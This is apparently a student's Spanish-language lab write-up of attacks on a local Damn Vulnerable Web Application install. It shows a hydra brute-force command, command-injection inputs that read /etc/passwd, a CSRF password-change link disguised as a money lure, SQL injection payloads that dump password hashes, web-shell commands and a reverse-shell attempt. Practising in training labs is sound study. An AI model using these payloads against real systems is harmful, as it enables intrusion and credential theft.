

# DAMN VULNERABLE WEB APPLICATION

# Ismael Ruiz

## Instalación

Clonaremos el repositorio y lanzaremos el script de instalación creado por "IamCarron" certificado por el propio creador de DVWA

```bash
git clone https://github.com/digininja/DVWA.git

sudo bash -c "$(curl --fail --show-error --silent --location https://raw.githubusercontent.com/IamCarron/DVWA-Script/main/Install-DVWA.sh)"
```

## Ataque de fuerza bruta

Utilizaremos hydra, una herramienta muy versátil para hacer ataques de fuerza bruta, indicando con `-l` un usuario concreto (si tuviéramos una lista de usuarios sería con `-L`), `-P` para indicar la lista de contraseñas (en este caaso rockyou), la ruta al formulario, `^USER^` y `^PASS^` los sustituye hydra con cada combinación, `Login=submit` que es el valor del botón y `:Username and/or password incorrect` es para que hydra sepa si ese intento ha sido correcto o incorrecto.

```bash
hydra -l admin -P ~/Desktop/rockyou.txt "http-get-form://localhost/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=submit:Username and/or password incorrect."
```
Cuando hydra termine de hacer su trabajo tendremos las contraseñas válidas

```bash
[80][http-get-form] host: localhost   login: admin   password: 123456
[80][http-get-form] host: localhost   login: admin   password: 12345
[80][http-get-form] host: localhost   login: admin   password: password
[80][http-get-form] host: localhost   login: admin   password: iloveyou
[80][http-get-form] host: localhost   login: admin   password: password
[80][http-get-form] host: localhost   login: admin   password: 123456789
[80][http-get-form] host: localhost   login: admin   password: 1234567
[80][http-get-form] host: localhost   login: admin   password: 12345678
[80][http-get-form] host: localhost   login: admin   password: babygirl
[80][http-get-form] host: localhost   login: admin   password: princess
[80][http-get-form] host: localhost   login: admin   password: abc123
[80][http-get-form] host: localhost   login: admin   password: daniel
[80][http-get-form] host: localhost   login: admin   password: lovely
[80][http-get-form] host: localhost   login: admin   password: rockyou
[80][http-get-form] host: localhost   login: admin   password: monkey
[80][http-get-form] host: localhost   login: admin   password: nicole
```

Y podremos iniciar sesión



## Inyección de comandos

Hacer una inyección de comandos mediante un textbox que ejecuta comandos en la consola del servidor y dicho comando no ha sido sanitizado antes de ejecutarse es bastante sencillo

Podemos escapar el comando que hace ping a la IP que asignemos con `;`, haciendo que se ejecuten en serie los comandos.

```
1.1.1.1; ls
```
```
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
64 bytes from 1.1.1.1: icmp_seq=1 ttl=64 time=8.21 ms
64 bytes from 1.1.1.1: icmp_seq=2 ttl=64 time=4.15 ms
64 bytes from 1.1.1.1: icmp_seq=3 ttl=64 time=5.00 ms

--- 1.1.1.1 ping statistics ---
4 packets transmitted, 3 received, 25% packet loss, time 3006ms
rtt min/avg/max/mdev = 4.154/5.785/8.207/1.746 ms
help
index.php
source
```
O también podemos escaparlo "pipeándolo" con `|` 
```
1.1.1.1 | cat /etc/passwd
```
```
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
_galera:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:102:MariaDB Server,,,:/nonexistent:/bin/false
tss:x:102:103:TPM software stack,,,:/var/lib/tpm:/bin/false
strongswan:x:103:65534::/var/lib/strongswan:/usr/sbin/nologin
systemd-timesync:x:992:992:systemd Time Synchronization:/:/usr/sbin/nologin
rwhod:x:104:65534::/var/spool/rwho:/usr/sbin/nologin
_gophish:x:105:105::/var/lib/gophish:/usr/sbin/nologin
iodine:x:106:65534::/run/iodine:/usr/sbin/nologin
messagebus:x:107:106::/nonexistent:/usr/sbin/nologin
tcpdump:x:108:107::/nonexistent:/usr/sbin/nologin
miredo:x:109:65534::/var/run/miredo:/usr/sbin/nologin
_rpc:x:110:65534::/run/rpcbind:/usr/sbin/nologin
Debian-snmp:x:111:109::/var/lib/snmp:/bin/false
redis:x:112:111::/var/lib/redis:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mosquitto:x:114:114::/var/lib/mosquitto:/usr/sbin/nologin
redsocks:x:115:115::/var/run/redsocks:/usr/sbin/nologin
stunnel4:x:991:991:stunnel service system account:/var/run/stunnel4:/usr/sbin/nologin
sshd:x:116:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:999:65534:dnsmasq:/var/lib/misc:/usr/sbin/nologin
sslh:x:117:118::/nonexistent:/usr/sbin/nologin
postgres:x:118:119:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
avahi:x:119:120:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
_gvm:x:120:122::/var/lib/openvas:/usr/sbin/nologin
speech-dispatcher:x:121:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
inetsim:x:122:124::/var/lib/inetsim:/usr/sbin/nologin
geoclue:x:123:125::/var/lib/geoclue:/usr/sbin/nologin
lightdm:x:124:126:Light Display Manager:/var/lib/lightdm:/bin/false
statd:x:125:65534::/var/lib/nfs:/usr/sbin/nologin
saned:x:126:128::/var/lib/saned:/usr/sbin/nologin
polkitd:x:989:989:User for polkitd:/:/usr/sbin/nologin
rtkit:x:127:129:RealtimeKit,,,:/proc:/usr/sbin/nologin
colord:x:128:130:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
nm-openvpn:x:129:131:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
nm-openconnect:x:130:132:NetworkManager OpenConnect plugin,,,:/var/lib/NetworkManager:/usr/sbin/nologin
kali:x:1000:1000:kali,,,:/home/kali:/usr/bin/zsh
```
Nota: Me devuelve el /etc/passwd de mi máquina virtual kali ya que esta es la que hace de servidor

## CSFR junto XSS (Stored)

Un poquito de teoría primero:

- CSRF (Cross-Site Request Forgery) engaña a un usuario autenticado para que realice acciones no deseadas en una web sin su consentimiento.

- XSS (Cross-Site Scripting) permite a un atacante inyectar scripts maliciosos en sitios web visitados por otros usuarios.

Para llevar a cabo esta práctica manipularemos el contenido del textbox para crear una etiqueta html, en este caso, un link, que al clickar le cambie su contraseña por una que nosotros hayamos especificado:

```html
<a href="http://localhost/DVWA/vulnerabilities/csrf/?password_new=pepe1234&password_conf=pepe1234&Change=Change#">50 eurillos gratis</a>
```

De esta forma, una vez un usuario encuentre mi mensaje y lo clicke creyendo que va a ganarse 50€, se le cambiará la contraseña a `pepe1234`, sin que siquiera se de cuenta.

## Inyección SQL

Esta es la inyección de SQL más básica que existe, esta cadena rompe la lógica del sistema de autenticación al inyectar una condición que siempre es verdadera, traducido al lenguaje humano quiere decir `"Oye base de datos, dame el usuario cuyo nombre está vacío O donde 1 sea igual a 1 (lo cual siempre pasa)."`

```sql
' OR '1'='1
```

Dándonos este resultado:

```
ID: ' OR '1'='1
First name: admin
Surname: admin

ID: ' OR '1'='1
First name: Gordon
Surname: Brown

ID: ' OR '1'='1
First name: Hack
Surname: Me

ID: ' OR '1'='1
First name: Pablo
Surname: Picasso

ID: ' OR '1'='1
First name: Bob
Surname: Smith
```
Podemos listar las columnas de una tabla
```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
```
```sql
ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: user_id
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: first_name
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: last_name
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: user
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: password
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: avatar
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: last_login
Surname: 

ID: ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
First name: failed_login
Surname: 
```
Podemos ver el nombre de usuario junto su correspondiente contraseña (aunque está hasheada)

```sql
' UNION SELECT user, password FROM users #
```

```sql
ID: ' UNION SELECT user, password FROM users #
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

ID: ' UNION SELECT user, password FROM users #
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

ID: ' UNION SELECT user, password FROM users #
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b

ID: ' UNION SELECT user, password FROM users #
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7

ID: ' UNION SELECT user, password FROM users #
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
```

Las bases de datos disponibles
```sql
' UNION SELECT schema_name, NULL FROM information_schema.schemata #
```

```sql
ID: ' UNION SELECT schema_name, NULL FROM information_schema.schemata #
First name: information_schema
Surname: 

ID: ' UNION SELECT schema_name, NULL FROM information_schema.schemata #
First name: dvwa
Surname: 
```

## Subida de ficheros

Vamos a crear una consola de comandos mediante php y usaremos la url para introducir los comandos, primero, crearemos dicha consola y la subiremos:

# PONER EL CONTENIDO DE consola.php CUANDO SE SUBA A GITHUB, WINDWOS DEFENDER ME BLOQUEA MI ARCHIVO dvwa.md POR ELLO

Nos dice que se ha subido correctamente: `../../hackable/uploads/consola.php succesfully uploaded!`

Y ya podremos intrucir comandos directamente desde la url:

```
http://localhost/DVWA/hackable/uploads/consola.php?cmd=whoami


www-data 
```

```
http://localhost/DVWA/hackable/uploads/consola.php?cmd=cat /etc/passwd


root:x:0:0:root:/root:/usr/bin/zsh daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin _apt:x:42:65534::/nonexistent:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin _galera:x:100:65534::/nonexistent:/usr/sbin/nologin mysql:x:101:102:MariaDB Server,,,:/nonexistent:/bin/false tss:x:102:103:TPM software stack,,,:/var/lib/tpm:/bin/false strongswan:x:103:65534::/var/lib/strongswan:/usr/sbin/nologin systemd-timesync:x:992:992:systemd Time Synchronization:/:/usr/sbin/nologin rwhod:x:104:65534::/var/spool/rwho:/usr/sbin/nologin _gophish:x:105:105::/var/lib/gophish:/usr/sbin/nologin iodine:x:106:65534::/run/iodine:/usr/sbin/nologin messagebus:x:107:106::/nonexistent:/usr/sbin/nologin tcpdump:x:108:107::/nonexistent:/usr/sbin/nologin miredo:x:109:65534::/var/run/miredo:/usr/sbin/nologin _rpc:x:110:65534::/run/rpcbind:/usr/sbin/nologin Debian-snmp:x:111:109::/var/lib/snmp:/bin/false redis:x:112:111::/var/lib/redis:/usr/sbin/nologin usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin mosquitto:x:114:114::/var/lib/mosquitto:/usr/sbin/nologin redsocks:x:115:115::/var/run/redsocks:/usr/sbin/nologin stunnel4:x:991:991:stunnel service system account:/var/run/stunnel4:/usr/sbin/nologin sshd:x:116:65534::/run/sshd:/usr/sbin/nologin dnsmasq:x:999:65534:dnsmasq:/var/lib/misc:/usr/sbin/nologin sslh:x:117:118::/nonexistent:/usr/sbin/nologin postgres:x:118:119:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash avahi:x:119:120:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin _gvm:x:120:122::/var/lib/openvas:/usr/sbin/nologin speech-dispatcher:x:121:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false inetsim:x:122:124::/var/lib/inetsim:/usr/sbin/nologin geoclue:x:123:125::/var/lib/geoclue:/usr/sbin/nologin lightdm:x:124:126:Light Display Manager:/var/lib/lightdm:/bin/false statd:x:125:65534::/var/lib/nfs:/usr/sbin/nologin saned:x:126:128::/var/lib/saned:/usr/sbin/nologin polkitd:x:989:989:User for polkitd:/:/usr/sbin/nologin rtkit:x:127:129:RealtimeKit,,,:/proc:/usr/sbin/nologin colord:x:128:130:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin nm-openvpn:x:129:131:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin nm-openconnect:x:130:132:NetworkManager OpenConnect plugin,,,:/var/lib/NetworkManager:/usr/sbin/nologin kali:x:1000:1000:kali,,,:/home/kali:/usr/bin/zsh
```

```
http://localhost/DVWA/hackable/uploads/consola.php?cmd=uname -a


Linux kali 6.8.11-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.8.11-1kali2 (2024-05-30) x86_64 GNU/Linux 
```
Intenté también hacer una reverse shell pero no lo conseguí (al menos de esta manera)
```
http://localhost/DVWA/hackable/uploads/consola.php?cmd=bash -i >& /dev/tcp/localhost/4444 0>&1
```